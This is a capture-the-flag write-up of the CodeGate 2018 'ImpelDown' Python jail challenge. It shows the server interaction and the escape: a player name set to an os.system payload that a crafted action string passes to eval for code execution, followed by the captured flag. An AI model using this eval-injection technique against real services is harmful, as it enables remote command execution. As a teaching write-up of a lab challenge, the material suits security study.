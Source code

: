 ```yaml
---
layout: post
title: Writeup (CTF) - ImpelDown CodeGate PreQuals 2018 (MISC)
date: 2018-02-03 10:00:00
categories: posts
en: true
description: Solution to an easy python jail challenge
keywords: "impeldown, python, jail, sandbox, ctf, ID-10-T, ka0labs"
authors:
    - X-C3LL
---
```


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This weekend was the second that we play CTFs together as [ID-10-T](https://ctftime.org/team/50611) team. We try to play two CTFs at same time (Sharif & CodeGate Prequals), but we have learned a lesson: we are not ready to play two CTFs simultaneously at this moment. We ranked as 2nd at Sharif CTF and 47th at CodeGate Prequals (not bad, but it was an overkill weekend). Lets see how we solved "ImpelDown" challenge.


## ImpelDown

Let's connect to the server:

```
$ nc ch41l3ng3s.codegate.kr 2014

                    __
          PyJail   /__\
       ____________|  |
       |_|_|_|_|_|_|  |
       |_|_|_|_|_|_|__|
      A@\|_|_|_|_|_|/@@Aa
   aaA@@@@@@@@@@@@@@@@@@@aaaA
  A@@@@@@@@@@@@@@@@@@@@@@@@@@A
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[!] Rule
1. After 3 day, the Light will be Turned Off then you Cannot see anything.
2. Cannot Use Some Special Characters in PyJail.
3. For 10 days, You can enter 38 characters per day.

Can You Escape from Here ??

 Name : aaaaaaaaaaaa
[day-1]
################## Work List ##################
  coworker        : Find Coworker For Escape
  tool            : Find Any Tool
  dig             : Go Deep~
  bomb            : make boooooooomb!!!
###############################################
tool(),
 aaaaaaaaaaaa : [Tool] Find : Knife !
Traceback (most recent call last):
  File "/home/impel_down/Impel_Down.py", line 141, in <module>
    watcher.Behavior_analysis(result)
  File "/home/impel_down/Impel_Down.py", line 67, in Behavior_analysis
    player_info = pickle.loads(Player)
  File "/usr/lib/python2.7/pickle.py", line 1387, in loads
    file = StringIO(str)
TypeError: StringIO() argument 1 must be string or buffer, not tuple

```

Ooops. That was an easy bug to trigger. Looks like some type of python jail, where we can set an username and then start sending pre-built actions (tool, dig, bomb...) like in a game. But the interesing thing here is that "pickle" error. We can keep poking around a bit more:

```
tool(),cmd
" : [Tool] Find : gun !
Traceback (most recent call last):
 File "/home/impel_down/Impel_Down.py", line 140, in <module>
   result = eval("your."+work+"()")
 File "<string>", line 1, in <module>
TypeError: 'str' object is not callable
```

Oh, nice. They are doing a concatenation of "your." + what we write as "action" + "()", so the point here is to see what we can do with that "your". Maybe we can exfiltrate more information calling the built-in help() ? (Spoiler: it worked):

```
tool(),help(your),

 " : [Tool] Find : book !

Help on instance of Esacpe_Player in module __main__:

class Esacpe_Player

 |  Methods defined here:

 |  

 |  __init__(self, name, day)

 |  

 |  bomb(self)

 |  

 |  coworker(self)

 |  

 |  dig(self)

 |  

 |  tool(self)

```

Did you see that "name"?. At this point is pretty clear what we have to do to solve this challenge and escape from the jail: insert a payload to our name and then reference it inside the eval(). We choose `__import__('os').system('ls')` as our name and `tool(),eval(your.name),` as action:

```
tool(),eval(your.name),
__import__('os').system('ls') : [Tool] Find : Knife !                                    │
Impel_Down.py                                                                             │
run.sh
```

Din, din, din! We have a cool RCE on this challenge. Just search in the filesystem for the flag and win your points :)

```
FLAG{Pyth0n J@il escape 1s always fun @nd exc1ting ! :)}
```

## Final words

This was a really easy (and funny) challenge. It worked as a break to my mind in this killer weekend.
